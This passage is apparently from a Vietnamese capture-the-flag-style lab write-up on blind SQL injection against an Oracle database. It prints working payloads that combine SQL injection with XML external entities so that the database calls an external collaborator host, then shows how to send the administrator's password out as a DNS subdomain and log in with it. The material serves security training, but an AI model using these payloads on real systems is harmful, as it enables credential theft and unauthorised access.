Kiểm tra trong Burp Collaborator client, không có gì được hiển thị. Có thể website đã chặn việc thực thi nhiều câu lệnh query trong chức năng tracking. Như vậy, ta thay `';` thành `' UNION` rồi thử lại, kết quả câu lệnh query trở thành:

```
TrackingId=abc' UNION SELECT EXTRACTVALUE(xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://gk4lihowe69pkkgl7fluaewn0e65zto.oastify.com/"> %remote;]>
'),'/l') FROM dual--
```

Kiểm tra, ta thấy đoạn query được thực thi thành công và trong Burp Collaborator đã nhận được request.

![image](https://user-images.githubusercontent.com/103978452/202646694-d96b5591-b9d3-4587-8e31-92ee12948b39.png)

# 16. Blind SQL injection with out-of-band data exfiltration
(Lưu ý: các đoạn code bên dưới trong thực tế đều được URL encode)

Thử với payload như trong bài #15, ta thấy kết quả vẫn thành công. Như vậy database được sử dụng là Oracle.

Payload ban đầu:
```
TrackingId=abc' UNION SELECT EXTRACTVALUE(xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://.xde2byhd7n26d1920web3vp4tvzmwal.oastify.com"> %remote;]>
'),'/l') FROM dual--
```

Ta thay đổi payload thành:
```
TrackingId=abc' UNION SELECT EXTRACTVALUE(xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||'helloworld'||'.xde2byhd7n26d1920web3vp4tvzmwal.oastify.com"> %remote;]>
'),'/l') FROM dual--
```

Chú ý đoạn URL đã được sửa đổi, bằng cách đặt "helloworld" làm subdomain. Khi kiểm tra BurpCollaborator, ta thấy một request đã được gửi đến, có chứa đoạn text "helloworld"

![image](https://user-images.githubusercontent.com/103978452/202651658-09315bc1-60ca-4632-9174-f933a2ec9c45.png)

Để lấy password của administrator, ta sẽ thay đoạn `"helloword"` thành `(SELECT password FROM users WHERE username="administrator")`. Sau khi gửi request, kiểm tra Burp Collaborator client thì thấy một đoạn subdomain đã được thêm vào. Đó chính là password của administrator.

![image](https://user-images.githubusercontent.com/103978452/202649060-fb5382f5-b0db-49bc-9437-45cd09480782.png)

Sử dụng thông tin đã có để đăng nhập, kết quả thành công.
